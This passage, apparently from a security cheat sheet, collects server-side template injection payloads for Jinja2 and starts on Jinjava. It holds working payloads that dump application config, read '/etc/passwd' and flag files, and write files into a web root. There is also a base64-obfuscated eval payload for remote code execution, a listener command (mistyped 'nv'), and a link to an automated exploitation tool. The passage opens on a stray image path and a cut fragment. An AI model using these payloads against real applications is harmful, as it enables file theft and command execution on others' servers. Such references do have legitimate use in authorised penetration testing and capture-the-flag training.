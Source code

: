 {{7*'7'}} would result in 7777777

{{config.items()}}
```

### Dump all used classes
```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Dump all config variables
```
{% for key, value in config.iteritems() %}
{{ key|e }}
{{ value|e }}
{% endfor %}
```

### Read Remote file
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
```

### Write into remote file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Remote Code Execution
Listen for Connection
```
nv -lnvp 8000
```

### RCE PAYLOAD - JINJA2:
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

## Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)

## Jinjava

### Basic Injection
```
{{'a'.toUpperCase()}} would result in 'A'
